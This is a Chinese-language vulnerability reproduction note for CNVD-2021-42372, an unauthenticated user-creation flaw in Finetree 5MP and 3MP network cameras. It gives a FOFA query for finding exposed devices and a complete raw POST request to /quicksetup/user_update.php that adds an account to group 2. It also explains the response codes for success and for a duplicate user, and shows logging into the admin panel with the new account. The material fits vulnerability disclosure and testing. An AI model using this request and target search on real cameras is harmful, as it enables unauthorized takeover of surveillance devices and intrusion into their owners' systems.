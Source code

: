 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## FOFA

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面

![image-20220519162837184](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191628247.png)

存在漏洞的文件 user_pop.php

![image-20220519163003628](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191630679.png)

```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求

![image-20220519163205310](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191632366.png)

或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复

![image-20220519163124031](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191631102.png)

利用添加的账户可以登录后台

![image-20220519163442946](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191634048.png)